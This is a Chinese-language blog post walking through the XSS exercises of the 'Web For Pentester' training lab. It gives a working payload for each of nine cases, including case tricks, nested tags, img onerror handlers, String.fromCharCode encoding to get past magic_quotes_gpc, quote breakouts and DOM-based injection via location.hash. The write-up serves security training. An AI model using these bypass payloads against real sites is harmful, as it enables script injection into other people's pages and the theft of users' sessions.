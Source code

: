 ```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
date:       2016-10-30
categories: [pentest]

---
```




### XSS Example 1

直接输出无任何过滤：

**name=\<script>alert(/XSS/)\</script>**

### XSS Example 2s
过滤掉了\<script>标签，通过大小写进行绕过：

**name=\<Script>alert(/XSS/)\</Script>**

### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：


**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**

### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：


**name=\<img src=1 onerror="alert(/XSS/)">**

### XSS Example 5
alert被过滤，但prompt、confirm函数可使用；这里同样可以使用String.fromCharCode来绕过：


**name=\<img src=1 onerror="confirm(/XSS/)">**

> 绕过magic_quotes_gpc
> magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
> 比如：\<script>alert("xss");\</script>会转换为<script>alert(\"xss\");</script>,这样我们的xss就不生效了。
> 针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，我们可以把alert(/XSS/);转换为
> String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 88, 83, 83, 47, 41)那么我们的XSS语句就变成了
> **\<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)\</script>** 
> String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串，在harkbar中的XSS功能中有这个功能可直接使用

### XSS Example 6
F12查看元素，发现输出在script标签中 *$a= "hacker";* ，那么直接闭合双引号就好：


**name=XSS";alert($a);//**

### XSS Example 7
通过Example 6的方法发现双引号被HTML编码了，而且在$a=''处添加了单引号来申明变量内容，那么同样依照闭合的原则将双引号改为单引号即可


**name=XSS';alert($a);//**

### XSS Example 8
查询功能，将查询内容反馈至页面，那么也就是存储型XSS，使用\<script>标签进行测试，通过查看源码发现<>尖括号被HTML编码，一般来说XSS漏洞修复若将尖括号进行编码后输出可视为安全的，但发现这里的form表单里的url可为任意构造，尝试访问如下带有payload的url成功
**/xss/example8.php/" onmouseover="alert(1)**

### XSS Example 9
同样审查元素，发现这里是一个很经典的DOM-Based XSS，使用了location.hash.substring(1)，那么直接构造
**/xss/example9.php#\<script>alert(/XSS/)\</script>**

